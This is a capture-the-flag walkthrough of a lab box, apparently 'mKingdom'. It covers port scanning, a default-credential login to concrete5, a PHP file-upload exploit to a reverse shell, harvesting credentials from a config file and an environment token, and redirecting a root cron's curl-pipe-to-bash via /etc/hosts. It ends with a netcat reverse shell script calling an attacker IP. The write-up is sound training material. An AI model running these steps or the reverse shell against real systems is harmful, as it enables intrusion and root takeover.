



### Initial Scan

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-07 20:57 +0200
Nmap scan report for 10.113.168.51
Host is up (0.025s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
85/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0H N0! PWN3D 4G4IN

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.08 seconds
```

### Enumeration

```
ffuf -u "http://$IP:85/FUZZ" -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt                 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.113.168.51:85/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 289, Words: 21, Lines: 11, Duration: 18ms]
.hta                    [Status: 403, Size: 284, Words: 21, Lines: 11, Duration: 1789ms]
app                     [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 24ms]
.htaccess               [Status: 403, Size: 289, Words: 21, Lines: 11, Duration: 2790ms]
index.html              [Status: 200, Size: 647, Words: 147, Lines: 34, Duration: 21ms]
server-status           [Status: 403, Size: 293, Words: 21, Lines: 11, Duration: 28ms]
:: Progress: [4750/4750] :: Job [1/1] :: 1562 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```

The path to app leads to a web page that contains a JUMP button. Pressing that button leads us again to the `/app/castle` path. Looking around on this page, we can see in the footer that this website was built with `concrete5` cms. For an easy CTF like this, this seems to be a very likely attack vector, especially since I found many entries using searchsploit:

```
searchsploit concrete5    
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Concrete5 8.5.4 - 'name' Stored XSS                                                                                                                                                                       | php/webapps/49721.txt
Concrete5 CME v9.1.3 - Xpath injection                                                                                                                                                                    | php/webapps/51144.txt
Concrete5 CMS 5.5.2.1 - Information Disclosure / SQL Injection / Cross-Site Scripting                                                                                                                     | php/webapps/37103.txt
Concrete5 CMS 5.6.1.2 - Multiple Vulnerabilities                                                                                                                                                          | php/webapps/26077.txt
Concrete5 CMS 5.6.2.1 - 'index.php?cID' SQL Injection                                                                                                                                                     | php/webapps/31735.txt
Concrete5 CMS 5.7.3.1 - 'Application::dispatch' Method Local File Inclusion                                                                                                                               | php/webapps/40045.txt
Concrete5 CMS 8.1.0 - 'Host' Header Injection                                                                                                                                                             | php/webapps/41885.txt
Concrete5 CMS < 5.4.2.1 - Multiple Vulnerabilities                                                                                                                                                        | php/webapps/17925.txt
Concrete5 CMS < 8.3.0 - Username / Comments Enumeration                                                                                                                                                   | php/webapps/44194.py
Concrete5 CMS FlashUploader - Arbitrary '.SWF' File Upload                                                                                                                                                | php/webapps/37226.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Looking into the source of the page, I was able to fingerprint the version based on the following html element:
```html
<meta name="generator" content="concrete5 - 8.5.2"/>
```

Ẁhen looking at the blog, we see that an `admin` user was uploading it. I then tried to enter some default credentials on the log in page (admin:admin and admin:password), which actually worked with the password `password`.

With a user now, we are able to exploit the previously identified `CVE-2020-24986`, which allows us to upload `.php` files via the File Manager. Furthermore, I found following blog post explaining the procedure: https://hackerone.com/reports/768322

Basically, we can just add `.php` to the allowed file extensions and upload our revshell to gain RCE. 



Opening the file gives us a rev shell.



### Privilege Escalation

On the machine, we find two users: `mario` and `toad`.

After some poking around, I was able to find following database.php file, which contains some credentials for toad:
```
www-data@mkingdom:/var/www/html/app/castle/application/config$ cat database.php 
<?php

return [
    'default-connection' => 'concrete',
    'connections' => [
        'concrete' => [
            'driver' => 'c5_pdo_mysql',
            'server' => 'localhost',
            'database' => 'mKingdom',
            'username' => 'toad',
            'password' => 'toadisthebest',
            'character_set' => 'utf8',
            'collation' => 'utf8_unicode_ci',
        ],
    ],
];

```

Using this, we can switch to the `toad` user.

Now the escalation vector to `mario` is a very CTF-like and unrealistic scenario. Looking at the environment variables using `env`, we find a weird looking `PWD_token` value:

```
toad@mkingdom:~$ env
APACHE_PID_FILE=/var/run/apache2/apache2.pid
XDG_SESSION_ID=c2
SHELL=/bin/bash
APACHE_RUN_USER=www-data
TERM=xterm
OLDPWD=/home
USER=toad
LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31:*.taz=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lz=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.axv=01;35:*.anx=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.axa=00;36:*.oga=00;36:*.spx=00;36:*.xspf=00;36:
PWD_token=aWthVGVOVEFOdEVTCg==
MAIL=/var/mail/toad
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
APACHE_LOG_DIR=/var/log/apache2
PWD=/home/toad
LANG=en_US.UTF-8
APACHE_RUN_GROUP=www-data
HOME=/home/toad
SHLVL=2
LOGNAME=toad
LESSOPEN=| /usr/bin/lesspipe %s
XDG_RUNTIME_DIR=/run/user/1002
APACHE_RUN_DIR=/var/run/apache2
APACHE_LOCK_DIR=/var/lock/apache2
LESSCLOSE=/usr/bin/lesspipe %s %s
_=/usr/bin/env
toad@mkingdom:~$ echo "aWthVGVOVEFOdEVTCg==" | base64 -d
ikaTeNTANtES
```

Using this password, we are able to log in as mario. Funnilly enough, we still can not access user.txt as it is owned and only readable by root.

Mario is allowed to run id with root privileges:

```
mario@mkingdom:~$ sudo -l
[sudo] password for mario:             
Matching Defaults entries for mario on mkingdom:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, pwfeedback

User mario may run the following commands on mkingdom:
    (ALL) /usr/bin/id

```

However, gtfobins does not list `id`, so I assumed this was just a rabbit hole. I was also not able to find something interesting using linpeas. 	

Using pspy, I was able to identify following hidden CRON job:
```
2026/10/07 16:00:37 CMD: UID=0     PID=3618   | ps -e -o pid,ppid,state,command 
2026/10/07 16:01:01 CMD: UID=0     PID=3623   | bash 
2026/10/07 16:01:01 CMD: UID=0     PID=3622   | curl mkingdom.thm:85/app/castle/application/counter.sh 
2026/10/07 16:01:01 CMD: UID=0     PID=3621   | /bin/sh -c curl mkingdom.thm:85/app/castle/application/counter.sh | bash >> /var/log/up.log  
```

We do not have rights to change the script itself, however we are able to modify the `/etc/hosts` file and change mkingom.thm to point to our attacker machine. 
After that, we need to create a rev shell bash script on our attacker machine, and mock the expected path (as it is done in this directory).
The bash script I used was this: 
```
#!/bin/bash
mkfifo /tmp/f; nc 192.168.163.58 4444 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

